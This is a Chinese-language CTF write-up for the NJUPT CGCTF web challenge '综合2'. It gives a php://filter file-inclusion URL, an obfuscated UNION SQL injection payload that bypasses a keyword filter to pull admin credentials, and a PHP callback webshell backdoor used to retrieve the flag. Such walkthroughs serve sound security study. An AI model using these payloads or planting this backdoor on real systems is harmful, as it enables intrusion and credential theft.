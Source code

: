 ```yaml
---
layout: post
title: "NJUPT CGCTF Web 综合2 writeup"
tags: [ctf,writeup,web]
author: wqpw
---
```


题目地址：[http://cms.nuptzj.cn/](http://cms.nuptzj.cn/)

还是挺有意思的。

![1](/assets/qwe1.png)

打开后到处点点，发现最有趣的是这个页面

![2](/assets/qwe2.png)

明示了可能有本地文件包含和sql注入漏洞 (´_ゝ`) 没看出来说明你前面的题没做完

然后我们来试试，比如

`http://cms.nuptzj.cn/about.php?file=php://filter/read=convert.base64-encode/resource=about.php`

放编辑器里处理下

![3](/assets/qwe3.png)

loginxlcteam是后台的目录，但还登不了

照着这样把几个文件都读出来，然后都看看,审计一下，发现都没啥用...

可能有sql注入的地方就只有搜索留言了

![4](/assets/qwe4.png)

打开看看

![5](/assets/qwe5.png)

然后又是个改user-agent的套路，用前面的文件包含读一下so.php，主要代码如下

```php
<?php
if($_SERVER['HTTP_USER_AGENT']!="Xlcteam Browser"){
echo '万恶滴黑阔，本功能只有用本公司开发的浏览器才可以用喔~';
    exit();
}
$id=$_POST['soid'];
...
include 'antiinject.php';
include 'antixss.php';
$id=antiinject($id); //过滤
...
$id=mysql_real_escape_string($id);
$result=mysql_query("SELECT * FROM `message` WHERE display=1 AND id=$id");
...
echo htmlspecialchars($rs['nice']).':<br />&nbsp;&nbsp;&nbsp;&nbsp;'.antixss($rs['say']).'<br />';
...
?>
```

显然是个整型sql注入漏洞，因为不需要逃逸引号所以mysql_real_escape_string没影响。主要看antiinject()这个函数干了啥。

读取antiinject.php看看

```php
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
 $info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>
```

可以看到它把一堆关键字，符号**替换为空一次**

所以我们可以开始注入了，当然先把user-agent改成Xlcteam Browser

![6](/assets/qwe6.png)

试一试，可以知道union注入的输出点在2或者3

因为前面已经把admin表的结构告诉了我们，所以直接上

payload: `233/**/ununionion/**/seselectlect/**/1,2,(seselectlect/**/concat(usernanameme,userpapassss)/**/frfromom/**/adadminmin/**/limit/**/0,1),4`

![7](/assets/qwe7.png)

这个密码看起来太眼熟了，都不需要看他们自己写的加密了...

![8](/assets/qwe8.png)

拿到了管理员用户名和密码，去后台登陆

![9](/assets/qwe9.png)

经过一番研究，决定继续用前面的文件包含读取一下小马，发现长这样:

```php
<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, '');
?>
```

这一看，吓得我赶紧打开了P神的博客，找到很久以前的一篇文章 [创造tips的秘籍——PHP回调后门](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)

![10](/assets/qwe10.png)

以前看过，印象挺深的

然后上菜刀，在根目录下找到flag

![11](/assets/qwe11.png)

结束